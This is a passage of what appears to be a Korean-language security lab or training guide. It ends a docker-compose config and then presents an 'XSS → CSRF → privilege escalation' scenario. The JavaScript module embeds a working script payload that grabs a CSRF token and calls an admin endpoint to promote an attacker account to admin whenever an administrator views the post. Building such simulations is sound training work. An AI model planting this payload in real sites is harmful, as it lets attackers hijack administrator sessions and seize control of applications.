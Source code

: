 ```yaml
      - golang-gateway
    volumes:
      - ./nginx-lb/ssl:/etc/nginx/ssl

  # Monitoring
  prometheus:
    image: prom/prometheus:latest
    ports:
      - "9090:9090"
    volumes:
      - ./monitoring/prometheus.yml:/etc/prometheus/prometheus.yml
```

## 🎯 **2단계: 복합 공격 체인 시나리오**

### Scenario 1: XSS → CSRF → Privilege Escalation
```javascript
// 공격 체인 시뮬레이션 모듈
const attackChainScenario = {
    title: "Advanced Attack Chain: XSS → CSRF → Privilege Escalation",
    description: "실제 공격자가 사용하는 다단계 공격 시나리오를 시뮬레이션",
    
    phases: [
        {
            name: "Phase 1: Initial XSS",
            description: "게시물에 XSS 페이로드 삽입",
            payload: `
                <script>
                // 1단계: CSRF 토큰 탈취
                fetch('/get-csrf-token')
                    .then(response => response.json())
                    .then(data => {
                        // 2단계: 관리자 권한 요청 (CSRF)
                        return fetch('/admin/promote-user', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json',
                                'X-CSRF-Token': data.token
                            },
                            body: JSON.stringify({
                                userId: 'attacker_id',
                                role: 'admin'
                            })
                        });
                    })
                    .then(() => {
                        // 3단계: 권한 상승 확인
                        window.location = '/admin/dashboard';
                    });
                </script>
            `,
            impact: "관리자가 해당 게시물을 볼 때 자동으로 공격자에게 관리자 권한 부여"
        }
    ]
};
```
